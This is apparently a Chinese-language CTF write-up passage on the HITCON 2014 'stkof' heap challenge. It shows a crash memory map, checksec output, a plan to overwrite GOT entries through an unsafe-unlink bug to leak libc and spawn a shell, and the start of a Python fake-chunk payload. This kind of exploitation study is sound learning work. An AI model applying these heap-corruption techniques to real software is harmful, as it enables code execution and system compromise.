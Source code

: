 ```
00601000-00602000 r--p 00001000 08:11 4069515                            /home/bill/CTF/how2heap/unsafe_unlink/hitcon_ctf_2014/stkof
00602000-00603000 rw-p 00002000 08:11 4069515                            /home/bill/CTF/how2heap/unsafe_unlink/hitcon_ctf_2014/stkof
00603000-00e05000 rw-p 00000000 00:00 0
02cb1000-02cd2000 rw-p 00000000 00:00 0                                  [heap]
7f8d98000000-7f8d98021000 rw-p 00000000 00:00 0
7f8d98021000-7f8d9c000000 ---p 00000000 00:00 0
7f8d9d598000-7f8d9d5ae000 r-xp 00000000 08:11 6815824                    /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8d9d5ae000-7f8d9d7ad000 ---p 00016000 08:11 6815824                    /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8d9d7ad000-7f8d9d7ae000 rw-p 00015000 08:11 6815824                    /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8d9d7ae000-7f8d9d96e000 r-xp 00000000 08:11 6816942                    /lib/x86_64-linux-gnu/libc-2.23.so
7f8d9d96e000-7f8d9db6e000 ---p 001c0000 08:11 6816942                    /lib/x86_64-linux-gnu/libc-2.23.so
7f8d9db6e000-7f8d9db72000 r--p 001c0000 08:11 6816942                    /lib/x86_64-linux-gnu/libc-2.23.so
7f8d9db72000-7f8d9db74000 rw-p 001c4000 08:11 6816942                    /lib/x86_64-linux-gnu/libc-2.23.so
7f8d9db74000-7f8d9db78000 rw-p 00000000 00:00 0
7f8d9db78000-7f8d9db9e000 r-xp 00000000 08:11 6816728                    /lib/x86_64-linux-gnu/ld-2.23.so
7f8d9dd7b000-7f8d9dd7e000 rw-p 00000000 00:00 0
7f8d9dd9c000-7f8d9dd9d000 rw-p 00000000 00:00 0
7f8d9dd9d000-7f8d9dd9e000 r--p 00025000 08:11 6816728                    /lib/x86_64-linux-gnu/ld-2.23.so
7f8d9dd9e000-7f8d9dd9f000 rw-p 00026000 08:11 6816728                    /lib/x86_64-linux-gnu/ld-2.23.so
7f8d9dd9f000-7f8d9dda0000 rw-p 00000000 00:00 0
7ffd57ece000-7ffd57eef000 rw-p 00000000 00:00 0                          [stack]
7ffd57f48000-7ffd57f4b000 r--p 00000000 00:00 0                          [vvar]
7ffd57f4b000-7ffd57f4d000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
Aborted (core dumped)
```
### 3.利用过程
**整体思路**: 通过`unlink`漏洞,修改`free@got`为`puts`,输入`puts@plt`,输出`puts`函数的真实地址.修改`atoi@got`为`system`, 输入`/bin/sh`的地址, 获得shell.

##### 1. `checksec`一下
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
##### 2. fake chunk
**思路**: 分配三个空间， 溢出第二个空间，使`02 chunk and 03 chunk` 合并, `unlink`.
```python
alloc(0x100)
alloc(0x30)
alloc(0x80)
# a fake chunk at global[2] = head + 16 who's size is 0x20
payload = p64(0)  		#prev_size
payload += p64(0x20)  #size
payload += p64(head + 16 - 0x18)  #fd
payload += p64(head + 16 - 0x10)  #bk
payload += p64(0x20)  # next chunk's prev_size bypass the check
payload = payload.ljust(0x30, 'a')
```